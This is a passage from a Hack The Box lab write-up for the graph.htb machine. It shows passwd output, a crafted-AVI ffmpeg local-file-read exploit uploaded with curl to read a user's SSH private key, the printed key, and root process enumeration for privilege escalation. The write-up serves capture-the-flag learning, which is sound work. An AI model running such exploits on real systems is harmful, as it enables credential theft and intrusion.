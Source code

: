 ```
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
```

All these to learn that the user is named "user"...

```shell
python payloads/generate_avi_lfr.py /home/user/.ssh/id_rsa test.avi --start 377
curl -i -s -k -X $'POST' \
    -H $'Host: internal-api.graph.htb' \
    -H $'admintoken: c0b9db4c8e4bbb24d59a3aaffa8c8b83' \
    -H $'Content-Type: multipart/form-data;' \
    -F $'file=@test.avi' \
    $'http://internal-api.graph.htb/admin/video/upload'
```

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAJjebJ3U3myd
1AAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDA
AAAEDzdpSxHTz6JXGQhbQsRsDbZoJ+8d3FI5MZ1SJ4NGmdYC90VbMvu9VKf1wfp+AHdKC2
3Y4bhdEZiHm6B/wUsBgMAAAADnVzZXJAb3ZlcmdyYXBoAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

##

There's unique file running as root:

```shell
ps auxf
# \_ /usr/sbin/CRON -f
#     \_ /bin/sh -c sh -c 'socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr'
#         \_ sh -c socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
#             \_ socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
pspy
# 2022/06/05 18:27:16 CMD: UID=0    PID=949    | socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
# 2022/06/05 18:27:16 CMD: UID=0    PID=948    | sh -c socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
# 2022/06/05 18:27:16 CMD: UID=0    PID=947    | /bin/sh -c sh -c 'socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr'
# 2022/06/05 18:27:16 CMD: UID=0    PID=946    | /usr/sbin/atd -f
# 2022/06/05 18:27:16 CMD: UID=0    PID=940    | /usr/sbin/CRON -f
file /usr/local/bin/Nreport/nreport
# /usr/local/bin/Nreport/nreport: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/local/bin/Nreport/libc/ld-2.25.so, for GNU/Linux 3.2.0, BuildID[sha1]=fab56bbb7a23ada8a8f5943b527d16f3cdcb09e5, not stripped
```


[author-profile]: https://app.hackthebox.com/users/172213
[disabled-dashboard]: images/disabled-dashboard.png
[hackerone-tiktok]: https://hackerone.com/reports/1062888
[internal-registration]: images/interal-registration.png*
[local-storage]: images/local-storage.png
[pat-ffmpeg]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
[registration-otp]: images/registration-otp.png
[share-localstorage]: https://stackoverflow.com/questions/4026479/use-localstorage-across-subdomains
[upload-form]: images/upload-form.png
[xss-blogpost]: https://xclow3n.github.io/bugBounty/myFirstBounty.html